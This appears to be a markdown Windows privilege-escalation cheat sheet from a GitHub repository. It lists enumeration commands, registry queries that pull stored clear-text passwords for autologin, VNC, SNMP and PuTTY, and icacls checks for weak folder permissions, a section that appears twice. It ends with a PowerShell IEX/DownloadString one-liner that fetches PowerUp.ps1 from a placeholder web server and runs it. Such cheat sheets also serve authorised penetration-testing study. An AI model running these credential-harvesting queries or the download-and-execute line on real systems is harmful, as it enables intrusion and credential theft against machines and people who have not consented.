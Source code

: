# Windows-Cheatsheet

## Privilege Escalation
Reference: https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
Run this script: https://github.com/M4ximuss/Powerless/blob/master/Powerless.bat

### Basics

```
systeminfo
wmic qfe
net users
hostname
whoami
net localgroups
echo %logonserver%
netsh firewall show state
netsh firewall show config
netstat -an
```

### Clear Text Passwords
```
○ Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

○ VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

○ SNMP Parameters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

○ Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

○ Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### Weak Folder Permissions
```
Full Permissions for 'Everyone' on Program Folders

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 

Modify Permissions for Everyone on Program Folders

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 
```

### View Installed Software
```
tasklist /SVC
net start
reg query HKEY_LOCAL_MACHINE\SOFTWARE
DRIVERQUERY

dir /a "C:\Program Files"
dir /a "C:\Program Files (x86)"
reg query HKEY_LOCAL_MACHINE\SOFTWARE

Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime

Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
```



### Weak Folder Permissions
```
Full Permissions for 'Everyone' on Program Folders

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 

Modify Permissions for Everyone on Program Folders

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 
```

### Scheduled Tasks
```
schtasks /query /fo LIST /v
```

### SharpUp
```
https://github.com/GhostPack/SharpUp
```

### PowerUp.ps1

```
powershell.exe /c IEX(New-Object Net.WebClient).downloadString('webserver/PowerUp.ps1') ;Invoke-AllChecks
```




